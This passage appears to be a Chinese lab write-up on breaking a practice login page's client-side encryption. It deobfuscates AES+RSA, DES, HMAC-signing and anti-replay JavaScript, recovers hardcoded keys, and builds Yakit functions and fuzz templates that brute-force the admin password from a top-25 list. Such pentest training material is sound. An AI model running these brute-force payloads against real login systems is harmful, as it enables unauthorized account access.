    )['catch'](_0x6e2829 => console['error'](_0x13ef4f(0x3c2, 0x3c4), _0x6e2829)),
    closeModal();
}

```

未混淆

```
function sendDataAesRsa(url) {
    const formData = {
        username: document.getElementById("username")
            .value,
        password: document.getElementById("password")
            .value
    };
    const jsonData = JSON.stringify(formData);

    const key = CryptoJS.lib.WordArray.random(16);
    const iv = CryptoJS.lib.WordArray.random(16);

    const encryptedData = CryptoJS.AES.encrypt(jsonData, key, {
            iv: iv,
            mode: CryptoJS.mode.CBC,
            padding: CryptoJS.pad.Pkcs7
        })
        .toString();

    const rsa = new JSEncrypt();
    rsa.setPublicKey(`-----BEGIN PUBLIC KEY-----
MIGfMA0GCSqGSIb3DQEBAQUAA4GNADCBiQKBgQDRvA7giwinEkaTYllDYCkzujvi
NH+up0XAKXQot8RixKGpB7nr8AdidEvuo+wVCxZwDK3hlcRGrrqt0Gxqwc11btlM
DSj92Mr3xSaJcshZU8kfj325L8DRh9jpruphHBfh955ihvbednGAvOHOrz3Qy3Cb
ocDbsNeCwNpRxwjIdQIDAQAB
-----END PUBLIC KEY-----`);

    const encryptedKey = rsa.encrypt(key.toString(CryptoJS.enc.Base64));
    const encryptedIv = rsa.encrypt(iv.toString(CryptoJS.enc.Base64));

    fetch(url, {
            method: "POST",
            headers: {
                "Content-Type": "application/json"
            },
            body: JSON.stringify({
                encryptedData: encryptedData,
                encryptedKey: encryptedKey,
                encryptedIv: encryptedIv
            })
        })
        .then(response => response.json())
        .then(data => {
            if (data.success) {
                alert("登录成功");
                window.location.href = "success.html";
            } else {
                alert("用户名或密码错误");
            }
        })
        .catch(error => console.error("请求错误:", error));

    closeModal();
}

```

aes+rsa，其中aes的key和iv均为随机字符，rsa公钥为硬编码，aes加密账号密码，rsa分别加密aes-key和aes-iv，发送给服务端验证，服务端使用rsa私钥解密出aes-key和aes-iv，再aes解密账号密码

调试拿到私钥



其实储存于该位置



yak热加载定义函数实现上述逻辑

```
aes = func(p) {
    results = str.Split(p, ",")
    m = {"username": results[0], "password": results[1]} /* 这里替换为你需要的格式 */
    key = results[2] /* 加密密钥 */
    iv = results[3] /* 初始化向量 */
    jsonInput = json.dumps(m)
    result = codec.AESCBCEncryptWithPKCS7Padding(key, jsonInput, iv)~
    base64Result = codec.EncodeBase64(result)
    return base64Result
}

rsa = func(p) {
    publicKey64 = `LS0tLS1CRUdJTiBQVUJMSUMgS0VZLS0tLS0NCk1JR2ZNQTBHQ1NxR1NJYjNEUUVCQVFVQUE0R05BRENCaVFLQmdRRFJ2QTdnaXdpbkVrYVRZbGxEWUNrenVqdmkNCk5IK3VwMFhBS1hRb3Q4Uml4S0dwQjducjhBZGlkRXZ1byt3VkN4WndESzNobGNSR3JycXQwR3hxd2MxMWJ0bE0NCkRTajkyTXIzeFNhSmNzaFpVOGtmajMyNUw4RFJoOWpwcnVwaEhCZmg5NTVpaHZiZWRuR0F2T0hPcnozUXkzQ2INCm9jRGJzTmVDd05wUnh3aklkUUlEQVFBQg0KLS0tLS1FTkQgUFVCTElDIEtFWS0tLS0t` /* base64格式的publicKey */
    publicKey = codec.DecodeBase64(publicKey64)~ 

    publicKey = []byte(publicKey)
    result = codec.RSAEncryptWithPKCS1v15(publicKey , p)~
    base64Result = codec.EncodeBase64(result)

    return base64Result
}
```

key，iv自定义即可，aes用于加密的key、iv 和 rsa加密的key、iv一致即可

```
{"encryptedData":"{{yak(aes|admin,{{payload(pass_top25)}},0000000000000000,0000000000000000)}}","encryptedKey":"{{yak(rsa|{{b64(0000000000000000)}})}}","encryptedIv":"{{yak(rsa|{{b64(0000000000000000)}})}}"}
```



# Des规律Key

调用链



点击

```
<button onclick="encryptAndSendDataDES('encrypt/des.php')">Des规律Key</button>
```

定位encryptAndSendDataDES函数

```
function encryptAndSendDataDES(_0x525852) {
    const _0x54dcc5 = document['getElementById'](_0x927984(0x39a, 0x39b))[_0x927984(0x39b, 0x38c)]
      , _0x4e8925 = document[_0x927984(0x394, 0x38d)]('password')['value'];
    function _0x927984(_0x35d0b2, _0x428008) {
        return _0x4f79d5(_0x35d0b2 - 0x218, _0x428008);
    }
    const _0x28853a = CryptoJS[_0x927984(0x3b3, 0x3c6)]['Utf8']['parse'](_0x54dcc5['slice'](0x0, 0x8)['padEnd'](0x8, '6'))
      , _0x360c3f = CryptoJS['enc'][_0x927984(0x39d, 0x3ab)]['parse']('9999' + _0x54dcc5['slice'](0x0, 0x4)['padEnd'](0x4, '9'))
      , _0x48281f = CryptoJS['DES']['encrypt'](_0x4e8925, _0x28853a, {
        'iv': _0x360c3f,
        'mode': CryptoJS[_0x927984(0x39f, 0x38a)]['CBC'],
        'padding': CryptoJS['pad'][_0x927984(0x3a1, 0x3a0)]
    })
      , _0x232c60 = _0x48281f['ciphertext'][_0x927984(0x3a2, 0x38b)](CryptoJS['enc']['Hex']);
    fetch(_0x525852, {
        'method': 'POST',
        'headers': {
            'Content-Type': _0x927984(0x3ba, 0x3d0)
        },
        'body': JSON['stringify']({
            'username': _0x54dcc5,
            'password': _0x232c60
        })
    })[_0x927984(0x3a4, 0x397)](_0x1d27b6 => _0x1d27b6['json']())[_0x927984(0x3a4, 0x3ac)](_0x15cd76 => {
        _0x15cd76['success'] ? (alert('登录成功'),
        window['location']['href'] = 'success.html') : alert('用户名或密码错误');
    }
    )['catch'](_0x495963 => console['error'](_0x927984(0x3a9, 0x3b4), _0x495963)),
    closeModal();
}

```

未混淆encryptAndSendDataDES函数

```
function encryptAndSendDataDES(url) {
    const username = document.getElementById("username")
        .value;
    const password = document.getElementById("password")
        .value;

    const key = CryptoJS.enc.Utf8.parse(username.slice(0, 8)
        .padEnd(8, '6'));

    const iv = CryptoJS.enc.Utf8.parse('9999' + username.slice(0, 4)
        .padEnd(4, '9'));

    const encryptedPassword = CryptoJS.DES.encrypt(password, key, {
        iv: iv,
        mode: CryptoJS.mode.CBC,
        padding: CryptoJS.pad.Pkcs7
    });

    const encryptedHex = encryptedPassword.ciphertext.toString(CryptoJS.enc.Hex);

    fetch(url, {
            method: "POST",
            headers: {
                "Content-Type": "application/json"
            },
            body: JSON.stringify({
                username: username,
                password: encryptedHex
            })
        })
        .then(response => response.json())
        .then(data => {
            if (data.success) {
                alert("登录成功");
                window.location.href = "success.html";
            } else {
                alert("用户名或密码错误");
            }
        })
        .catch(error => console.error("请求错误:", error));

    closeModal();
}

```

用户名n0o0b登录测试，动调得到

iv



key



结合源码，key是将username不满8位用6填充，最高8位，iv是取前四位username，前补满9，

观察其传参，明文传输username，password经过des加密





yak实现des

```
des = func(p) {
    results = str.Split(p, ",")
    dec = results[0] 
    key = results[1] /* 加密密钥 */
    iv = results[2] /* 初始化向量 */
    dec = codec.PKCS7PaddingForDES(dec)
    result = codec.DESCBCEncrypt(key, dec, iv)~
    return sprintf("%x",result)
}	
```

构造发包，key固定admin666，iv固定9999admi

```
{"username":"admin","password":"{{yak(des|{{payload(pass_top25)}},admin666,9999admi)}}"}
```



# 明文加签



点击

```
<button onclick="sendDataWithNonce('encrypt/signdata.php')">明文加签</button>
```

sendDataWithNonce函数

```
function sendDataWithNonce(_0x4a55f) {
    const _0x2547ae = document['getElementById'](_0x777122(0x1a1, 0x1b4))['value']
      , _0x52eec5 = document[_0x777122(0x1c0, 0x1ae)](_0x777122(0x1c8, 0x1b6))[_0x777122(0x1ba, 0x1b5)]
      , _0x3db627 = Math['random']()[_0x777122(0x1c1, 0x1bc)](0x24)['substring'](0x2)
      , _0x1a525d = Math['floor'](Date['now']() / 0x3e8)
      , _0x2e9aaf = 'be56e057f20f883e'
      , _0xaf577e = _0x2547ae + _0x52eec5 + _0x3db627 + _0x1a525d
      , _0x2ab511 = CryptoJS['HmacSHA256'](_0xaf577e, _0x2e9aaf)['toString'](CryptoJS[_0x777122(0x1c1, 0x1cd)]['Hex']);
    function _0x777122(_0x39a1cd, _0x409838) {
        return _0x4f79d5(_0x409838 - 0x32, _0x39a1cd);
    }
    fetch(_0x4a55f, {
        'method': 'POST',
        'headers': {
            'Content-Type': 'application/json'
        },
        'body': JSON[_0x777122(0x1c4, 0x1c9)]({
            'username': _0x2547ae,
            'password': _0x52eec5,
            'nonce': _0x3db627,
            'timestamp': _0x1a525d,
            'signature': _0x2ab511
        })
    })['then'](_0x57ce41 => _0x57ce41['json']())['then'](_0x4ecf0a => {
        function _0x113def(_0x1414f5, _0x1a25eb) {
            return _0x777122(_0x1a25eb, _0x1414f5 - 0xb7);
        }
        _0x4ecf0a['success'] ? (alert('登录成功'),
        window['location']['href'] = 'success.html') : alert(_0x4ecf0a[_0x113def(0x27f, 0x273)] || '用户名或密码错误');
    }
    )['catch'](_0x19e420 => console['error']('请求错误:', _0x19e420)),
    closeModal();
}

```

未混淆sendDataWithNonce函数

```
function sendDataWithNonce(url) {
    const username = document.getElementById("username")
        .value;
    const password = document.getElementById("password")
        .value;

    const nonce = Math.random()
        .toString(36)
        .substring(2);
    const timestamp = Math.floor(Date.now() / 1000);

    const secretKey = "be56e057f20f883e";

    const dataToSign = username + password + nonce + timestamp;
    const signature = CryptoJS.HmacSHA256(dataToSign, secretKey)
        .toString(CryptoJS.enc.Hex);

    fetch(url, {
            method: "POST",
            headers: {
                "Content-Type": "application/json"
            },
            body: JSON.stringify({
                username: username,
                password: password,
                nonce: nonce,
                timestamp: timestamp,
                signature: signature
            })
        })
        .then(response => response.json())
        .then(data => {
            if (data.success) {
                alert("登录成功");
                window.location.href = "success.html";
            } else {
                alert(data.error || "用户名或密码错误");
            }
        })
        .catch(error => console.error("请求错误:", error));

    closeModal();
}

```

HmacSHA256计算用户名、密码、随机数和时间戳，key为硬编码be56e057f20f883e，进行签名，防止篡改

发包测试如下



yak定义签名函数

```
sign = func(p) {
    secretKey = `be56e057f20f883e`
    results = str.Split(p, ",")
    username = results[0]
    password = results[1] /* 这里替换为你需要的格式 */
    nonce = "0000"
    t = timestamp()
    data = username + password + nonce + t
    signature = codec.EncodeToHex(codec.HmacSha256(secretKey, data))
    m = {
        
        "username": username,
        "password": password,
        "nonce": nonce,
        "timestamp": t,
        "signature": signature
    }
    res = json.dumps(m)

    return res
}
```

调用sign函数发包

```
{{yak(sign|admin,{{payload(pass_top25)}})}}
```



# 加签key在服务器端

两次请求



点击触发按钮

```
<button onclick="sendDataWithNonceServer('encrypt/signdataserver.php')">加签key在服务器端</button>
```

测试两个路由的发包

/encrypt/get-signature.php



/encrypt/signdataserver.php



混淆的sendDataWithNonceServer函数

```
async function sendDataWithNonceServer(_0xb4476b) {
    function _0x5b14e6(_0x9f039f, _0x3746ee) {
        return _0x4f79d5(_0x9f039f - 0xde, _0x3746ee);
    }
    const _0x41822d = document['getElementById']('username')['value']
      , _0x3c65d8 = document['getElementById']('password')['value']
      , _0x173dbd = Math[_0x5b14e6(0x281, 0x282)](Date[_0x5b14e6(0x282, 0x26f)]() / 0x3e8);
    try {
        const _0x55d2c7 = await fetch(_0xb4476b + _0x5b14e6(0x283, 0x28d), {
            'method': _0x5b14e6(0x27a, 0x26b),
            'headers': {
                'Content-Type': _0x5b14e6(0x280, 0x26f)
            },
            'body': JSON['stringify']({
                'username': _0x41822d,
                'password': _0x3c65d8,
                'timestamp': _0x173dbd
            })
        });
        closeModal();
        if (!_0x55d2c7['ok']) {
            console['error']('获取签名失败:', _0x55d2c7['statusText']),
            alert('获取签名失败，请稍后重试。');
            return;
        }
        const {signature: _0x2755ad} = await _0x55d2c7[_0x5b14e6(0x26b, 0x279)]();
        if (!_0x2755ad) {
            alert('签名获取失败，服务器未返回签名。');
            return;
        }
        const _0x58deb5 = await fetch('' + _0xb4476b, {
            'method': 'POST',
            'headers': {
                'Content-Type': 'application/json'
            },
            'body': JSON['stringify']({
                'username': _0x41822d,
                'password': _0x3c65d8,
                'timestamp': _0x173dbd,
                'signature': _0x2755ad
            })
        });
        if (!_0x58deb5['ok']) {
            console['error'](_0x5b14e6(0x284, 0x28b), _0x58deb5['statusText']),
            alert('提交数据失败，请稍后重试。');
            return;
        }
        const _0x22648d = await _0x58deb5['json']();
        _0x22648d[_0x5b14e6(0x26c, 0x26a)] ? (alert('登录成功'),
        window['location']['href'] = 'success.html') : alert(_0x22648d[_0x5b14e6(0x274, 0x285)] || '用户名或密码错误');
    } catch (_0x30ffca) {
        console['error'](_0x5b14e6(0x26f, 0x265), _0x30ffca),
        alert('发生错误，请稍后重试。');
    }
}

```

未混淆js

```
async function sendDataWithNonceServer(url) {
    const username = document.getElementById("username").value;
    const password = document.getElementById("password").value;

    const timestamp = Math.floor(Date.now() / 1000); // 当前时间戳

    try {
        const signResponse = await fetch(`${url}/../get-signature.php`, {
            method: "POST",
            headers: {
                "Content-Type": "application/json",
            },
            body: JSON.stringify({
                username: username,
                password: password,
                timestamp: timestamp,
            }),
        });
        closeModal();
        if (!signResponse.ok) {
            console.error("获取签名失败:", signResponse.statusText);
            alert("获取签名失败，请稍后重试。");
            return;
        }

        const { signature } = await signResponse.json();

        if (!signature) {
            alert("签名获取失败，服务器未返回签名。");
            return;
        }

        const submitResponse = await fetch(`${url}`, {
            method: "POST",
            headers: {
                "Content-Type": "application/json",
            },
            body: JSON.stringify({
                username: username,
                password: password,
                timestamp: timestamp,
                signature: signature,
            }),
        });

        if (!submitResponse.ok) {
            console.error("数据提交失败:", submitResponse.statusText);
            alert("提交数据失败，请稍后重试。");
            return;
        }

        const data = await submitResponse.json();

        if (data.success) {
            alert("登录成功");
            window.location.href = "success.html";
        } else {
            alert(data.error || "用户名或密码错误");
        }
    } catch (error) {
        console.error("请求错误:", error);
        alert("发生错误，请稍后重试。");
    }

}

```

先fetch了get-signature.php，传入用户名密码时间戳，在服务端进行签名，key储存在服务器上，有效防止硬编码自行加签，后用得到的签名对signdataserver.php进行验证

利用yakit fuzz序列解决

step1:给passwd和时间戳设置变量保证序列内继承前后一致，服务端加签返回后提取signature



```
{"username":"admin","password":"{{p(passwd)}}","timestamp":{{p(t)}}}
```



step2：用step继承下来的passwd、时间戳和sign签发包

```
{"username":"admin","password":"{{p(passwd)}}","timestamp":{{p(t)}},"signature":"{{p(signature)}}"}
```



# 禁止重放

调用链



点击

```
<button onclick="sendLoginRequest('encrypt/norepeater.php')">禁止重放</button>
```

sendLoginRequest函数

```
function sendLoginRequest(_0x434a60) {
    const _0x295e29 = generateRequestData();
    function _0x2f073d(_0x4a1d2e, _0x410fbd) {
        return _0x4f79d5(_0x4a1d2e - 0x3ba, _0x410fbd);
    }
    fetch(_0x434a60, {
        'method': _0x2f073d(0x556, 0x55c),
        'headers': {
            'Content-Type': _0x2f073d(0x561, 0x55f)
        },
        'body': JSON[_0x2f073d(0x551, 0x547)](_0x295e29)
    })[_0x2f073d(0x546, 0x538)](_0x5d7c82 => _0x5d7c82['json']())['then'](_0x8209e9 => {
        function _0x1fb957(_0x2afce9, _0x598e94) {
            return _0x2f073d(_0x598e94 - -0x692, _0x2afce9);
        }
        _0x8209e9['success'] ? (alert('登录成功'),
        window['location']['href'] = 'success.html') : alert(_0x8209e9[_0x1fb957(-0x14e, -0x142)] || _0x1fb957(-0x146, -0x143));
    }
    )[_0x2f073d(0x562, 0x577)](_0x428887 => console[_0x2f073d(0x550, 0x557)](_0x2f073d(0x54b, 0x53a), _0x428887)),
    closeModal();
}
function generateRequestData() {
    function _0x34b479(_0x38b999, _0x500418) {
        return _0x4f79d5(_0x38b999 - 0x1e4, _0x500418);
    }
    const _0x1da0ac = document[_0x34b479(0x360, 0x357)](_0x34b479(0x366, 0x379))['value']
      , _0x4fdc07 = document[_0x34b479(0x360, 0x360)](_0x34b479(0x368, 0x37d))[_0x34b479(0x367, 0x351)]
      , _0x5a8525 = Date[_0x34b479(0x388, 0x37a)]()
      , _0x9f2be4 = _0x34b479(0x37e, 0x381);
    function _0x5b0e97(_0x482893, _0x201f27) {
        const _0x3ef89b = new JSEncrypt();
        _0x3ef89b[_0x434cfc(0x300, 0x2f2)](_0x201f27);
        const _0x311c6b = _0x3ef89b[_0x434cfc(0x2ed, 0x2fc)](_0x482893['toString']());
        function _0x434cfc(_0x57eb61, _0x7fc509) {
            return _0x34b479(_0x57eb61 - -0x7d, _0x7fc509);
        }
        if (!_0x311c6b)
            throw new Error('RSA\x20encryption\x20failed.');
        return _0x311c6b;
    }
    let _0x110e21;
    try {
        _0x110e21 = _0x5b0e97(_0x5a8525, _0x9f2be4);
    } catch (_0x16a5f1) {
        return console['error']('Encryption\x20error:', _0x16a5f1),
        null;
    }
    const _0x163cb9 = {
        'username': _0x1da0ac,
        'password': _0x4fdc07,
        'random': _0x110e21
    };
    return _0x163cb9;
}
```

未混淆js

```
function sendLoginRequest(url) {
    const dataToSend = generateRequestData();

    fetch(url, {
            method: "POST",
            headers: {
                "Content-Type": "application/json; charset=utf-8"
            },
            body: JSON.stringify(dataToSend)
        })
        .then(response => response.json())
        .then(data => {
            if (data.success) {
                alert("登录成功");
                window.location.href = "success.html";
            } else {
                alert(data.error || "用户名或密码错误");
            }
        })
        .catch(error => console.error("请求错误:", error));

    closeModal();
}

function generateRequestData() {
    const username = document.getElementById("username").value;
    const password = document.getElementById("password").value;
    const timestamp = Date.now();

    const publicKey = `-----BEGIN PUBLIC KEY-----
MIGfMA0GCSqGSIb3DQEBAQUAA4GNADCBiQKBgQDRvA7giwinEkaTYllDYCkzujvi
NH+up0XAKXQot8RixKGpB7nr8AdidEvuo+wVCxZwDK3hlcRGrrqt0Gxqwc11btlM
DSj92Mr3xSaJcshZU8kfj325L8DRh9jpruphHBfh955ihvbednGAvOHOrz3Qy3Cb
ocDbsNeCwNpRxwjIdQIDAQAB
-----END PUBLIC KEY-----`;

    function rsaEncrypt(data, publicKey) {
        const jsEncrypt = new JSEncrypt(); 
        jsEncrypt.setPublicKey(publicKey);
